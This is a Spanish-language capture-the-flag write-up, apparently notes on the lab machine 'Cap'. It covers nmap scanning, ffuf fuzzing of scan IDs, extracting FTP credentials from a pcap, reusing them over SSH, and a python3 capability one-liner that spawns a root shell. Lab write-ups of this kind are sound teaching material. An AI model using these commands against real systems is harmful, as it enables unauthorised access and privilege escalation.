 1)¿Cuántos puertos TCP hay abiertos?
	3

2)Después de ejecutar una «Instantánea de seguridad», el navegador es redirigido a una ruta con el formato /[algo]/[id], donde [id] representa el número de id del escaneo. ¿Qué es [algo]?
	data
	La respuesta viene de el link http://10.10.10.245/data/1, en la parte que dice security snapshot
	![[Cap5.png]]


3)¿Puedes acceder a las exploraciones de otros usuarios?
	Si
	Creo que es por que se ven diferentes ip de salida y destino, pero la verdad no estoy seguro

4)¿Cuál es el ID del fichero PCAP que contiene los datos sensibles?
	0
![[Cap6.png]]

5)¿En qué protocolo de capa de aplicación del archivo pcap se pueden encontrar los datos sensibles?
	ftp
	
6)Hemos conseguido la contraseña FTP de Nathan. ¿En qué otro servicio funciona esta contraseña?
	ssh

*La pregunta anterior es la flag*
8)¿Cuál es la ruta completa al binario en esta máquina tiene capacidades especiales de las que se puede abusar para obtener privilegios de root?
	/usr/bin/python3.8

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.245
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.245 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,80 10.10.10.245 -oN target
```

![[Cap1.png]]![[Cap2.png]]
![[Cap3.png]]
*TTL:* Maquina linux
*Puertos:*
	`21`FTP
	`22`SSH
	`80`HTPP

-----
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.245/
```
![[Cap4.png]]

--------
# [[FFUF]] y [[Gobuster]]

Entramos la la pagina principal
![[Cap11.png]]
con [[Gobuster]] no nos salio ningun directorio interesante, pero entrando en una de las paginas, vemos que esta el directorio /data/ y nos ponemos a enumerarlo con digitos
``ffuf -u http://10.10.10.245/data/FUZZ -w /usr/share/SecLists/Fuzzing/4-digits-0000-9999.txt -t 64 -fs 208`` Usamos el parametro `-fs 208` ya que habia muchos falsos positivos

![[Cap7.png]]
Nos da la captura de la 0 a la 5
![[Cap12.png]]
Descargamos la 0 y la abrimos con [[wireshark]], podemos ver que informacion sensible

En ftp sacamos el usuario y contraseña nathan:Buck3tH4TF0RM3!

``ftp nathan@10.10.10.245 -p 21``
![[Cap8.png]]

--------
# Conexion por [[ssh]]

Vemos si reutiliza credenciales en [[ssh]] que en habiamos visto que estaba activo el servicio por el puerto 21

``ssh nathan@10.10.10.245 -p 22``
![[Cap9.png]]

---
# [[Tratamiento de la TTY]]

--------
# Escalada de privilegios [[getcap]]

Usamos el comando `getcap -r / 2>/dev/null` y vemos que tiene una capability en python

![[Cap14.png]]

Vamos a vamos a [gtfobinds](https://gtfobins.github.io/gtfobins/python/#capabilities), nos da este oneliner
![[Cap13.png]]
Lo adaptamos a nuestra maquina, lo ejecutamos y podemos visualizar las flags ``python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'``

![[Cap15.png]]